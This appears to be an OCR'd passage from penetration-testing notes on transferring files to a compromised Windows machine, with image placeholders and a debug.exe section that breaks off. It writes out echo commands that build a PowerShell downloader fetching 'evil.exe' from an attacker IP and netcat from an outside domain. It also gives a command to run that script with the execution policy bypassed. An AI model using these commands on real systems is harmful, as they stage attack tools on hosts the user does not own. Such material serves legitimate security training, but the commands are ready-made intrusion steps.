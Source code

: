 ![](media/9cd9c3f66b4800a2391d5f188ee04770.png)

Powershell script - simple HTTP downloader

cmd:

echo \$storageDir = \$pwd \> wget.ps1

echo \$webclient = New-Object System.Net.WebClient \>\>wget.ps1

echo \$url = "http://10.11.0.5/evil.exe" \>\>wget.ps1

echo \$file = "new-exploit.exe" \>\>wget.ps1

echo \$webclient.DownloadFile(\$url,\$file) \>\>wget.ps1

powershell:

\$storageDir = \$pwd

\$webclient = New-Object System.Net.WebClient

\$url = "https://chasers.fun/nc.exe"

\$file = "nc3.exe"

\$webclient.DownloadFile(\$url,\$file)

powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File
wget.ps1

![](media/a2b01a11f5209d570c893ebf9d50014e.png)

![](media/4fc121d4ad25b91124e129aa102623a7.png)

4. Using debug.exe to Transfer Files

32 bit Windows operating systems

The debug.exe program acts as an assembler, disassembler, and a hex dumping
tool.

The concept behind the use of debug.exe for file transfers is similar to the use
of scripting languages. We use non-interactive echo commands, to write out the
binary file in its hex value equivalents, and then use debug.exe to assemble the
written text file into a binary file. There is a 64k byte size limit to the
files that can be created by debug.exe.
